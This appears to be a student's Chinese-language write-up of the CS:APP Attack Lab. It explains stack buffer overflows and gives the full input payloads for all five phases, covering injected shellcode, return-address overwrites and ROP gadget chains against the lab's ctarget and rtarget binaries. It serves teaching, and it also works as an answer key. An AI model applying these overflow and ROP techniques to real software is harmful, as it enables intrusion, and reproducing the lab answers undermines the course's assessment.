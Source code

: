 # Attack lab 实验解析

## 文件内容

本次实验需要好好看官网的 writeup，里面有很详细的介绍和提示

首先本次实验分为两个部分

- 利用栈溢出注入代码进行攻击
- 利用 gadgets，消除栈不可执行和栈地址随机化的保护实现代码攻击

对于两种攻击方式先进行简单解释：

c语言对于数组的引用没有相应的越界检查，而且局部变量和状态信息（例如保存的寄存器的值，以及函数调用后的下一步执行的指令地址）保存在栈中，所以当数组越界以后，对于原先栈中的保存信息进行写操作时，就会导致代码的执行逻辑收到攻击，发生没有预想的变化。



实验有几个文件：

- hex2raw 将 16 进制的顺序字符转化为 gets() 输入的字符串，实现对于缓冲区的显式写入

- farm.c 可以在这里找到这种所需要的 gadgets
- ctarget 第一部分实验的可执行文件
- rtarget 第二部分实验的可执行文件

## 实验部分一

根据汇编可以得到如下的地址信息：

> touch1 首地址 0x4017c0
>
> touch2 首地址 0x4017ec
>
> touch3 首地址 0x4018fa
>
> cookie 0x59b997fa
>
> 分配buffer后的栈顶指针地址 0x5561dc78
>
> 分配buffer前的栈顶指针地址 0x5561dca8

### phase1

首先了解到 ctarget 会调用 test 方法，在 test 方法中调用 getBuf，查看 getBuf 的汇编可以知道



对于栈指针的下移 40 个字节，只需要输入 48 个字节，后 8 个字节就是函数调用后，下一步要执行的指令的地址，所以将 touch1 函数的指令首地址写入，那么当 getBuf 调用完了以后，程序会去执行 touch1 方法， 实验完成

所以栈中应该呈现的数据形式：

> 00 00 00 00 00 00 00 00 00 00
> 00 00 00 00 00 00 00 00 00 00
> 00 00 00 00 00 00 00 00 00 00
> 00 00 00 00 00 00 00 00 00 00
> c0 17 40 00

### phase2

这里对于 phase1 来说，只是多了一个穿参数的操作，我们理想的调用情况应该是，字符输入完以后，函数跳转至执行 参数传入，然后再调用 touch2，由于栈是可执行的，所以我们可以将 getbuf执行后的返回地址 重写成栈的地址，然后通过栈中我们注入的编码好的指令进行传参，最后跳转至 touch2.

注意到 touch2 中要求传入的参数的值为 cookie，且下一步应该是调用 touch2 所以应该要执行的指令为：

```s
movq	$0x59b997fa,%rdi
pushq	$0x004017ec
retq
```



转化为二进制：

```
48 c7 c7 fa 97 b9 59 	/* mov    $0x59b997fa,%rdi */
68 ec 17 40 00       	/* pushq  $0x4017ec */
c3                   	/* retq */
```



可以将传参的指令写到栈顶，然后在 40 个字节后面重写写入栈顶地址，这样就可以达到整个调用链的状态

所以可以将输入的字符串整理为：

> 48 c7 c7 fa 97 b9 59    */\* mov    $0x59b997fa,%rdi \*/*
>
> 68 ec 17 40 00          */\* pushq  $0x4017ec \*/*
>
> c3                      */\* retq \*/*
>
> 00 00 00
>
> 00 00 00 00 00
>
> 00 00 00 00 00 00 00 00 00
>
> 00 00 00 00 00 00 00 00 00 00
>
> 78 dc 61 55 00 00 00 00

### phase3

本题和 phase3 差不多，只不过将传入的参数换成了一个字符串，也就是一个 char * 指针，同时可以调试的时候可以看到 40 个字节其实不太安全，后面会覆盖掉传入的参数，那么可以将 字符串的写入换到 test 返回地址后面，其他情况和 phase2 类似，所以答案可以如下所示：

> 48 c7 c7 a8 dc 61 55    */\* mov    $0x5561dca8,%rdi \*/*
>
> 68 fa 18 40 00  */\* pushq  $0x4018fa \*/*
>
> c3                      */\* retq \*/*
>
> 00 00 00
>
> 00 00 00 00 00
>
> 00 00 00 00 00 00 00 00 00
>
> 00 00 00 00 00 00 00 00 00 00
>
> 78 dc 61 55 00 00 00 00   
>
> 35 39 62 39 39 37 66 61 00

## 实验部分二

### phase4

要求用 ROP 攻击方法实现 phase2 的效果

因此输入的字符串应该先填充 40 字节 然后修改更高字节的栈地址为不同的 gadgets 实现想要的操作，因为要实现的效果单纯就是去 farm 的反汇编去找对应的指令，感觉和前面两个没什么区别，只需要在代码区找到前面我们手写的 汇编语言就好（当然一些数据要通过栈存取），所以就没有专门去找，直接参考了别人找到的地址操作就可以，答案：

> 00 00 00 00 00 00 00 00 00 00
>
> 00 00 00 00 00 00 00 00 00 00
>
> 00 00 00 00 00 00 00 00 00 00
>
> 00 00 00 00 00 00 00 00 00 00
>
> ab 19 40 00 00 00 00 00
>
> fa 97 b9 59 00 00 00 00
>
> a2 19 40 00 00 00 00 00
>
> ec 17 40 00 00 00 00 00

### phase5

这道题的实现效果和 phase3 一样，慢慢找并且断点调试栈指针的位置和值，就可以得到最后的答案，其实还是挺难的，我找了很久，实在不耐烦，就去看了被人的解析，最后也算明白了答案，贴一下最后的结果：

> 51 51 51 51 51 51 51 51 51 51
> 51 51 51 51 51 51 51 51 51 51
> 51 51 51 51 51 51 51 51 51 51
> 51 51 51 51 51 51 51 51 51 51
> ad 1a 40 00 00 00 00 00
> d8 19 40 00 00 00 00 00
> a2 19 40 00 00 00 00 00
> fa 18 40 00 00 00 00 00
> 31 31 31 31 31 31 31 31 31 31
> 31 31 31 31 31 31 31 31 31 31
> 31 31 31 31 31 31 31 31 31 31
> 31
> 35 39 62 39 39 37 66 61 00



## 小结

总的来说比 bomb 还是要简单不少的，基本的思路都有，实现方式也不算复杂，就是第一部分中，其实是可以把跳转的执行地址放到栈里的，我们就可以把自己写的代码通过字符注入栈中，通过溢出的栈修改跳转位置，跳转到我们的输入的地址，然后程序就会按照我们写的去跑。第二部分，由于栈是不可执行的，利用retq 的特性，可以通过已经在代码区编好的指令去实现我们想要的结果，但是比较难匹配 gadgets